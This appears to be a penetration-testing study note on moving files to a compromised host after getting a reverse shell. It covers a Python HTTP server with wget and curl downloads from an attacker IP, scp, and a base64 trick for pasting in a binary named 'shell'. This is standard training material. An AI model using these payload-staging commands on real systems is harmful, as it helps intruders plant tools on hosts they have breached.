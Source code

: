 * It is likely that we will need to transfer files to the remote server, such as enumeration scripts or exploits, or transfer data back to our attack host.
* While tools like Metasploit with a Meterpreter shell allow us to use the `Upload` command to upload a file, we need to learn methods to transfer files with a standard reverse shell.

---
### Using wget
* There are many methods to transfer files:
	* One method is running a [Python HTTP server](https://developer.mozilla.org/en-US/docs/Learn/Common_questions/set_up_a_local_testing_server) on our machine and then using `wget` or `cURL` to download the file on the remote host.
		* First, we go into the directory that contains the file we need to transfer and run a Python HTTP server in it:
		* `cd /tmp`
		* `python3 -m http.server 8000`
		`Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...`
		* Now that we have set up a listening server on our machine, we can download the file on the remote host that we have code execution on:
		* `wget http://10.10.14.1:8000/linenum.sh`
		* ***Note**: we used our IP `10.10.14.1` and the port our Python server runs on `8000`. If the remote server does not have `wget`, we can use `cURL` to download the file:
		* `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`
		* ***Note**: we used the `-o` flag to specify the output file name.*
### Using SCP
* Another method to transfer files would be using `scp`, granted we have obtained ssh user credentials on the remote host. We can do so as follows:
	* `scp linenum.sh user@remotehost:/tmp/linenum.sh`
	* ***Note**: we specified the local file name after `scp`, and the remote directory will be saved to after the `:`.*

---
### Using Base64
* In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine.
* In this type of situation, we can use a simple trick to [base64](https://linux.die.net/man/1/base64) encode the file into `base64` format, and then we can paste the `base64` string on the remote server and decode it.
* For example, if we wanted to transfer a binary file called `shell`, we can `base64` encode it as follows:
	* `base64 shell -w 0`
* Now, we can copy this `base64` string, go to the remote host, and use `base64 -d` to decode it, and pipe the output into a file:
	* `echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell`

---
### Validating File Transfers
* To validate the format of a file, we can run the [file](https://linux.die.net/man/1/file) command on it:
	* `file shell`
* As we can see, when we run the `file` command on the `shell` file, it says that it is an ELF binary, meaning that we successfully transferred it.
* To ensure that we did not mess up the file during the encoding/decoding process, we can check its md5 hash. On our machine, we can run `md5sum` on it:
	* `md5sum shell`
* Now, we can go to the remote server and run the same command on the file we transferred:
	* `md5sum shell`
* As we can see, both files have the same md5 hash, meaning the file was transferred correctly.